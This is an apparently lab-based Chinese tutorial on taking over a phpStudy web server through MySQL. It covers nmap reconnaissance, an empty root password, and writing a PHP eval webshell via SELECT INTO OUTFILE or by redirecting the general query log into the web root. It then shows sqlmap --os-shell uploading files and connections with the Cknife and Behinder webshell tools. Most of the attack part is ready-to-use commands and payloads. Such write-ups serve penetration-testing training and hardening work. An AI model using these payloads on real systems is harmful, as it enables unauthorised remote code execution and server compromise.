## 0x01 环境搭建

nmap查看开放端口信息

常用命令`nmap -sT -Pn -sV IP地址`



查看phpinfo信息



mysql弱口令爆破，这里是空口令，免去爆破过程

## 0x02 select into outfile写入木马

sql语句

```mysql
select '<?php @eval($_POST[1]);?>' into outfile 'C:/phpStudy/WWW/shell.php'
```


注意这里用了  分号`;` 结尾

Cknife连接木马



连接



## 0x03 SQL语句利用日志写shell

outfile被禁止，或者写入文件被拦截；

在数据库中操作如下：（必须是root权限）


```mysql
show variables like '%general%';  查看日志状态
SET GLOBAL general_log='on'     开启日志读写
SET GLOBAL general_log_file='C:/phpStudy/WWW/x.php';  指定需要写入日志路径
SELECT '<?php eval($_POST["cmd"]);?>'  写日志进x.php
```

访问 http://192.168.32.144/x.php



使用C刀连接





在目标服务器上查看x.php文件



## 0x04 sqlmap写入一句话getshell

使用命令--os-shell，注意需要是root权限，否则可能写入不成功

```shell
python sqlmap.py -r E:\Users\Administrator\Desktop\抓包.txt -p "id" --os-shell
```





交互式shell不再赘述，上图已显示

访问sqlmap留的上传点 http://192.168.32.144/tmpuufgd.php



点击upload，上传成功，访问http://192.168.32.144/ceshi.php

如图，证明已上传成功



冰蝎连接

